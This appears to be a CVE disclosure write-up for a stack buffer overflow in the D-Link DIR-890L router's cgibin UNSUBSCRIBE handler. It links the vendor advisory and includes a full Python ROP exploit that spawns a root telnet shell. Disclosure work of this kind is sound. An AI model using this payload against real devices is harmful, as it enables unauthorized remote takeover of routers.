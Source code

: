 # Information

**Vendor of the products:**    D-Link

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) && FeiXincheng(<FXC030618@outlook.com>)

**Affected products:**    D-Link DIR-890L <= v1.07

**Vendor Homepage:**    [https://www.dlink.com](https://www.dlink.com "https://www.dlink.com")

**Vendor Advisory:**     [https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10299](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10299 "https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10299")

# Overview

The LAN-side Web-Configuration Interface has `Stack-based Buffer Overflow vulnerability` in the `D-Link` Wi-Fi router firmware `DIR-890L DIR890LA1_FW107b09.bin` and previous versions. 

The function created at `0x17958` of `/htdocs/cgibin` will call `sprintf` without checking the length of strings in parameters given by `HTTP header` and can be controlled by users easily.

The attackers can exploit the vulnerability to carry out arbitrary code by means of sending a specially constructed payload to port `49152`.

# Vulnerability Description

The vulnerability is detected at `/htdocs/cgibin`.

There is a `Stack-based Buffer Overflow vulnerability` in the function created at `0x17A60`. When we use `UNSUBSCRIBE` request, it will call the `sub_17958` function which created at `0x17958`.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/1-1.jpg)

However, in the `sub_17958` function, it will call `sprintf` without checking the length of `v2`, which causes the `stack overflow`. The `v2` here is `SID` parameter given by `HTTP header`.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/1-2.jpg)

# Poc

```python
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'arm')

libc_base = 0xb6f7e000

s = socket(AF_INET, SOCK_STREAM)

cmd = b'telnetd -l /bin/sh;'
payload = b'a'*449
payload += p32(libc_base + 0x18298) # pop {r3, pc};
payload += p32(libc_base + 0x406f8) # mov r0, r1; pop {r3, pc};
payload += p32(libc_base + 0x390fc) # pc add r1, sp, #0x2c; blx r3;
payload += b'a'*4 # padding
payload += p32(libc_base + 0x5a270) # pc system
payload += b'a'*(0x2c-8) # padding
payload += cmd

msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: " + payload + b"\r\n\r\n"

s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)

sleep(1)
system("telnet 192.168.0.1 23")
```

# Get Shell

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-0.jpg)

Scan ports before exploit the vulnerability.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-1.jpg)

Exploit the vulnerability and get shell successfully.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-2.jpg)

Scan ports again and we can dectect that the port `23` which represents `Telnet` service has been opened.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-3.jpg)
